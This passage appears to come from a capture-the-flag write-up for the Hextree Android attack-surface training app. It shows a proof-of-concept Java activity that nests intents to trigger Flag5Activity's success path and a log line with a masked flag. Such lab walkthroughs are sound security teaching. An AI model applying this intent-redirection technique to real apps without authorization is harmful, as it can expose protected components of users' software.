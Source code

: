- If the `reason` equals `"back"`, the `success()` method is called.
- If the `reason` equals `"next"`, it replaces the `startActivity` parameter with the `nextIntent`.

This means we can pass another intent inside it. Keep this in mind, as we’ll revisit it later. For now, since we don’t need it to get `Flag5`, let’s proceed.

Here’s the POC app:

```java
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // Create the innermost intent (intent3)
        Intent intent3 = new Intent();
        intent3.putExtra("reason", "back");

        // Create the middle intent (intent2) and embed intent3
        Intent intent2 = new Intent();
        intent2.putExtra("nextIntent", intent3);
        intent2.putExtra("return", 42);

        // Create the outer intent (intent1) and embed intent2
        Intent intent1 = new Intent();
        intent1.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag5Activity");
        intent1.putExtra("android.intent.extra.INTENT", intent2);

        // Start the activity with the outer intent
        startActivity(intent1);
    }
}
```
:::note
this is only more illustration for noob guys like me, if you already got it then skip.
:::

Still confused? Here’s how I managed to understand it:

- In the target app, `intent2` is extracted from `intent1` like this:
    
    ```java
    Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
    ```
    
- To reverse this in the POC app, we **put** `intent2` inside `intent1`:
    
    ```java
    intent1.putExtra("android.intent.extra.INTENT", intent2);
    ```
    

I hope this makes it clearer when writing your POC app.

```bash
03-01 16:24:14.766  3685  3685 I Flag5   : success() called!
03-01 16:24:14.852  3685  3685 I Flag5   : HXT{xxxxxxxxxxxx}
```

---